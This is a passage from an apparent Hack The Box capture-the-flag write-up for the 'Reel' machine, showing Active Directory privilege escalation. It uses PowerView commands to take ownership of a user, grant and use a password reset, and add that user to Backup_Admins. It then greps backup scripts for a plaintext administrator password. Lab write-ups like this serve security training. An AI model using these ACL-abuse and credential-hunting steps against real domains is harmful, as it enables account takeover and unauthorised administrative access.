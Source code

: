 Taking ownership of _Claire_ with _Tom_ and set rights:
```powershell
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

If we run BloodHound again, we see new permissions **Owns** and **ForcePasswordChange** for _Tom_:

![Tom to Backup_Admins group - Owns Claire](https://kyuu-ji.github.io/htb-write-up/reel/BH_query_5.png)

So we will change the password of _Claire_:
```powershell
$pass = ConvertTo-SecureString 'NewPass1!' -AsPlainText -Force

Set-DomainUserPassword Claire -AccountPassword $pass -Verbose
```

And we have SSH access with _Claire_!

We will abuse the write access to make _Claire_ a member of the Backup_Admin group because she is not a member yet but has ownership.

Adding user to group:
```powershell
$cred = New-Object System.Management.Automation.PSCredential('HTB\Claire', $pass)

Add-DomainGroupMember -Identity 'Backup_Admins' -Members Claire -Credential $cred
```

To verify that worked, we can see the groups with this command
```powershell
Get-DomainGroup -MemberIdentity Claire | select SamAccountName
```

```powershell
samaccountname                                                                                                                  
--------------                                                                                                                  
Restrictions                                                                                                                    
DR_Site                                                                                                                         
MegaBank_Users                                                                                                                  
Domain Users                                                                                                                    
Backup_Admins     
```

## Privilege Escalation to Administrator

With _Claire_ we have access to the home folder of _Administrator_ but can't read the flag. Instead there is a folder called **Backup Scripts** that we have access to and in which are different Powershell and text files. If we read all of them and look for the word "password" we will find one:
```markdown
type * | findstr password

Output:
# admin password                                                                                                                
$password="Cr4ckMeIfYouC4n!"  
```

If we try this password with SSH and the username Administrator we get in and can read the flag!
